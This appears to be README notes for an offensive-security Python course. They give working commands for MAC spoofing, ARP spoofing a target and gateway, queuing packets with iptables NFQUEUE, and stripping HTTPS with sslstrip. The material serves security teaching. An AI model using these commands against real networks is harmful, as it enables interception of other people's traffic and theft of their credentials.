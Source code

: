 # Offensive Security Python
> From Zaid Sabih

* Topics
- Changing MAC Address 
- Network Scanner
- ARP Spoofing
- Packet Sniffer
- DNS Spoofer
- Replace Download

## Playbook
> Check on how to use these tools 

## Dependencies on PIP
- scapy
- scapy_http
- netfilterqueue

# Notes
> On doing this things manually or with another tool

## Changing MAC ADDRESS
Commands
```
ifconfig wlan0 down
ifconfig wlan0 hw ether 00:11:22:33:44:55
ifconfig wlan0 up
ifconfig wlan0 
```
## ARP SPOOF 
* Reminder you need to enable ip forwarding in Linux First
```
echo 1 > /proc/sys/net/ipv4/ip_forward
```
 * exceptions in ubuntu 
 > as a normal user, you won't be able to write to the file due to insufficient permission.  
 Use sudo and bash:

```
 sudo bash -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'
```

 Use tee:

```
 echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```

Terminal 1 for Target  
```
arpspoof -i <INTERFACE> -t <TARGET IP> <GATEWAY IP>
arpspoof -i eth0 -t 10.0.2.7 10.0.2.1
```

Terminal 2 for Gateway  
```
arpspoof -i <INTERFACE> -t <GATEWAY IP> <TARGET IP>
arpspoof -i eth0 -t 10.0.2.1 10.0.2.7 
```

## Intercepting Packets

To queue all request to number 0
```
iptables -I FORWARD -j NFQUEUE --queue-num 0
```

to restore them
```
iptables --flush
```

## Bypassing HTTPS

* Terminal 1 
> Goal To be MITM  
> Let's use our arp spoof file

```
python arpspoof.py
```

* Terminal 2
> Goal is to use SSLstrip
> ssltrip default port is 10000

```
sslstrip
```

* Terminal 3
> Goal 
> 

```
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
```



--- 

### Python 3 Compatibility

pip3 install scapy-python3

#### Same line Printing 
print("\r [+] Info counter", end="")

